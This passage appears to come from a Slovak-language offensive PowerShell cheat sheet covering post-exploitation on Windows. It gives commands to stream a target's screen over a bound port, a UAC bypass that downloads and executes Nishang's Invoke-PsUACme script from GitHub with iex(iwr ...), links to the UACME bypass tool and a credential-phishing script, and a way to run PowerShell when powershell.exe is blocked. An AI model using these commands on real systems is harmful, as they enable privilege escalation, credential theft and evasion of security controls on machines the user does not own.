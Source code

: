 <pre class="lang:ps decode:true ">Show-TargetScreen -Bind -Port 10800

# firefox 'http://localhost:10800'</pre>

### Obídenie UAC (pre-Windows 10)

<pre class="lang:ps decode:true ">iex(iwr 'https://raw.githubusercontent.com/samratashok/nishang/master/Escalation/Invoke-PsUACme.ps1')
Invoke-PsUACme -method mmc</pre>

### Obídenie UAC

[UACME](https://github.com/hfiref0x/UACME)

### Phishing

[Invoke-CredentialsPhish](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-CredentialsPhish.ps1)

### Obídenie blokovaného powershell.exe

[Not PowerShell](https://github.com/Ben0xA/nps)

<pre class="lang:ps decode:true ">nps.exe "& Get-Date; Write-Output 'Ohai there'"</pre>

&nbsp;